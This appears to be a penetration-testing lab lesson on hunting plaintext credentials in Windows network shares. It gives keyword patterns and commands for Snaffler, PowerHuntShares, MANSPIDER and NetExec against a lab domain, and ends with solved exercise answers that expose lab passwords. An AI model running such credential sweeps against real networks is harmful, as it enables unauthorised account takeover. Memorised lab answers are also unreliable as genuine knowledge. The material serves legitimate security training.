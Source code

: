 Nearly all corporate environments include network shares used by employees to store and share files across teams. While these shared folders are essential, they can unintentionally become a goldmine for attackers, especially when sensitive data like plaintext credentials or configuration files are left behind.

In this section, we'll explore how to hunt for credentials across network shares from both Windows and Linux systems using common tools, along with general techniques attackers use to uncover hidden secrets.

#### Common credential patterns
- Look for keywords within files such as `passw`, `user`, `token`, `key`, and `secret`.
- Search for files with extensions commonly associated with stored credentials, such as `.ini`, `.cfg`, `.env`, `.xlsx`, `.ps1`, and `.bat`.
- Watch for files with "interesting" names that include terms like `config`, `user`, `passw`, `cred`, or `initial`.
- If you're trying to locate credentials within the `INLANEFREIGHT.LOCAL` domain, it may be helpful to search for files containing the string `INLANEFREIGHT\`.
- Keywords should be localized based on the target; if you are attacking a German company, it's more likely they will reference a `"Benutzer"` than a `"User"`.
- Pay attention to the shares you are looking at, and be strategic. If you scan ten shares with thousands of files each, it's going to take a signifcant amount of time. Shares used by `IT employees` might be a more valuable target than those used for company photos.

With all of this in mind, you may want to begin with basic command-line searches (e.g., `Get-ChildItem -Recurse -Include *.ext \\Server\Share | Select-String -Pattern ...`) before scaling up to more advanced tools. Let's take a look at how we can use `MANSPIDER`, `Snaffler`, `SnafflePy`, and `NetExec` to automate and enhance this credential hunting process.

## Hunting from Windows
#### Snaffler
The first tool we will cover is [Snaffler](https://github.com/SnaffCon/Snaffler). This is a C# program that, when run on a `domain-joined` machine, automatically identifies accessible network shares and searches for interesting files. The `README` file in the Github repository describes the numerous configuration options in great detail, however a basic search can be carried out like so:

```cmd-session
c:\Users\Public>Snaffler.exe -s
```
Two useful parameters that can help refine Snaffler's search process are:
- `-u` retrieves a list of users from Active Directory and searches for references to them in files
- `-i` and `-n` allow you to specify which shares should be included in the search


#### PowerHuntShares
Another tool that can be used is [PowerHuntShares](https://github.com/NetSPI/PowerHuntShares), a PowerShell script that doesn't necessarily need to be run on a domain-joined machine. One of its most useful features is that it generates an `HTML report` upon completion, providing an easy-to-use UI for reviewing the results:
We can run a basic scan using `PowerHuntShares` like so:

```powershell
PS C:\Users\Public\PowerHuntShares> Invoke-HuntSMBShares -Threads 100 -OutputDirectory c:\Users\Public
```


## Hunting from Linux

#### MANSPIDER
If we don’t have access to a domain-joined computer, or simply prefer to search for files remotely, tools like [MANSPIDER](https://github.com/blacklanternsecurity/MANSPIDER) allow us to scan SMB shares from Linux. It's best to run `MANSPIDER` using the official Docker container to avoid dependency issues. Like the other tools, `MANSPIDER` offers many parameters that can be configured to fine-tune the search. A basic scan for files containing the string `passw` can be run as follows:

```shell
> docker run --rm -v ./manspider:/root/.manspider blacklanternsecurity/manspider 10.129.234.121 -c 'passw' -u 'mendres' -p 'Inlanefreight2025!'

[+] MANSPIDER command executed: /usr/local/bin/manspider 10.129.234.121 -c passw -u mendres -p Inlanefreight2025!
[+] Skipping files larger than 10.00MB
[+] Using 5 threads
[+] Searching by file content: "passw"
[+] Matching files will be downloaded to /root/.manspider/loot
[+] 10.129.234.121: Successful login as "mendres"
[+] 10.129.234.121: Successful login as "mendres"
```

#### NetExec
In addition to its many other uses, `NetExec` can also be used to search through network shares using the `--spider` option. This functionality is described in great detail on the [official wiki](https://www.netexec.wiki/smb-protocol/spidering-shares). A basic scan of network shares for files containing the string `"passw"` can be run like so:
```shell
> nxc smb 10.129.234.121 -u jbader -p 'ILovePower333###' --spider Marketing --content --pattern "passw"

SMB         10.129.234.121  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:inlanefreight.local) (signing:True) (SMBv1:False)
SMB         10.129.234.121  445    DC01             [+] inlanefreight.local\mendres:Inlanefreight2025! 
SMB         10.129.234.121  445    DC01             [*] Started spidering
SMB         10.129.234.121  445    DC01             [*] Spidering .
<SNIP>
```

## Exercise
Use the credentials `mendres:Inlanefreight2025!` to connect to the target either by RDP or WinRM, then use the tools and techniques taught in this section to answer the questions below. For your convenience, `Snaffler` and `PowerHuntShares` can be found in `C:\Users\Public`.

## Questions

1. One of the shares mendres has access to contains valid credentials of another domain user. What is their password?
2. As this user, search through the additional shares they have access to and identify the password of a domain administrator. What is it?

---
1. We can spider the HR share with the string `passwd` :
```shell
> docker run --rm -v ./manspider:/root/.manspider blacklanternsecurity/manspider 10.129.234.173 -c 'pwd' -u 'mendres' -p 'Inlanefreight2025!'

(VERY BIG OUTPUT SO I GREPPED IT WITH passwd*)
...
...
...
[+] Auth backup password: INLANEFREIGHT\jbader:ILovePower333###
...
...
```
2. Make the same command with jbader user:
```shell
...
...
**Password:** `Str0ng_Adm1nistrat0r_P@ssword_2025!`
...
...
...
```